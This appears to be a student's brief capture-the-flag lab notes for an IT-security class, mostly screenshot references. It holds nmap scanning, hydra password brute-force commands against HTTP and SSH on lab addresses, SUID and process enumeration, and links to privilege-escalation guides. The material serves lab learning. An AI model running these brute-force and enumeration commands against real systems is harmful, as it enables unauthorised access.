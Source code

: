 ```yaml
---
tags:
  - 3te_Klasse
  - itsi
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
![[Pasted image 20250117183736.png]]
`ls -R *`
![[Pasted image 20250117190434.png]]
![[Pasted image 20250117191517.png]]
![[Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![[Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![[Pasted image 20250117204436.png]]
![[Pasted image 20250117211103.png]]
![[Pasted image 20250117211250.png]]
![[Pasted image 20250117211407.png]]
![[Pasted image 20250117211426.png]]
https://www.exploit-db.com/exploits/42274


![[Pasted image 20250117232339.png]]
